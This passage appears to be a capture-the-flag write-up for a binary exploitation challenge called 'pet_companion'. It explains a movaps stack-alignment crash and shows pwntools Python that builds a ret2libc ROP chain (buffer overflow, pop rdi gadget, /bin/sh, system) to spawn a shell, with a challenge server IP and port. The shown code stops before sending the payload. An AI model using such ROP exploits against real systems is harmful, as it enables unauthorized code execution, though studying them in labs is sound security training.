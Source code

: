 The program SEGFAULT on this line:
```
 ► 0x7ffff784f2d6    movaps xmmword ptr [rsp + 0x40], xmm0
```

So this kinda looks like the same issue :)

So i added a padding 'ret' at the start of my payload:
```python
    # Searching for "ret" inside binary
    ret = rop.find_gadget(['ret']).address
    print("ret; addr found:", hex(ret))

    # Building our paylaod
    payload += p64(ret)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(system_addr)
    payload += p64(exit_addr)
```


```python
DELETE ME
from pwn import *

LOCAL_FILE_PATH: str = "./pet_companion"
REMOTE_SERVER = "83.136.254.223"
REMOTE_PORT = 31013
libc=ELF("./glibc/libc.so.6", checksec=False)
elf = ELF(LOCAL_FILE_PATH)
rop=ROP(elf)

def pwn_pet_compagnion(proc):
    proc.recvuntil(b"[!] Set your pet companion's current status: ")
    payload = b"A"*72
    
    # This doesn't work because of NX
    # payload += p64(0x7fffffffdc98)

    # /bin/sh string address (gdb -> info proc map -> find x,y,"/bin/sh")
    bin_sh = 0x7ffff79b3d88
    print('/bin/sh address:', hex(bin_sh))

    # System address (gdb -> p system)
    system_addr = 0x7ffff784f420
    print("System address:", hex(system_addr))

    # Exit address
    exit_addr = 0x7ffff7843110

    # Searching for "pop rdi; ret" inside binary
    pop_rdi_ret = rop.find_gadget(['pop rdi','ret'])[0]
    print("pop rdi; ret; addr found:",hex(pop_rdi_ret))

    # Searching for "ret" inside binary
    ret = rop.find_gadget(['ret'])[0]
    print("ret; addr found:", hex(ret))

    # Building our paylaod
    payload += p64(ret)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(system_addr)
    #payload += p64(exit_addr)

```